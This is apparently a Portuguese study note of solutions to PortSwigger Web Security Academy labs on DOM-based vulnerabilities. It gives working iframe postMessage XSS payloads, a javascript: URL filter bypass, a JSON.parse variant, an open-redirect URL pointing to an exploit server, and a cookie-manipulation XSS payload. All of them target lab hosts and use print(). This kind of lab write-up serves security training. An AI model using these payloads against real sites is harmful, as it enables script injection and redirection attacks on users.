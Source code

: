 # Vulnerabilidades DOM-Based

Probabilidade: $${\color{lightgreen}baixa / média}$$.

<br>

Para identificar essas vulnerabilidades é recomendado utilizar o Browser da PortSwigger com a extensão que identifica esse tipo de exploração.

Também pode-se identificar analisando o código fonte, principalmente de arquivos JavaScript.

<br>

## Laboratórios

**DOM XSS using web messages**

Perceba que a página home contém a função `addEventListener()` que espera uma mensagem web.

Envie isso para a vítima atrás do exploit server:
```
<iframe src="//0a8100fe032e3917c66ead67003c0020.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

<br>
<br>

**DOM XSS using web messages and a JavaScript URL**

O JavaScript contém uma checagem falha usando indexOf() que verifica apenas pelas palavras `http:` ou `https:` em qualquer lugar da mensagem web.
```
<iframe src="https://0a2d00d604a3acfbc67064610056003c.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

<br>
<br>

**DOM XSS using web messages and JSON.parse**
```
<iframe src="https://0a03009c03110946c0d1aea2003700e0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

<br>
<br>

**DOM-Based Open Redirection**

Esse é o código-fonte vulnerável:
```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

Exploit:
```
https://0ae900830459749cc2465788006000b5.web-security-academy.net/post?postId=7&url=https://exploit-0ab30006040d744dc2a7561101df00f9.exploit-server.net/exploit#
```

<br>

**DOM-Based Cookie Manipulation**
Observe que a aplicação utilize um cookie no client-side chamado `lastViewedProduct` que tem como valor a URL do último produto que o usuário visitou.

```
<script>
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

Exploit:
```
<iframe src="https://0a1100e803937b60c6874ab7003b00b5.web-security-academy.net/product?productId=1&'><script>print()</script>">
```
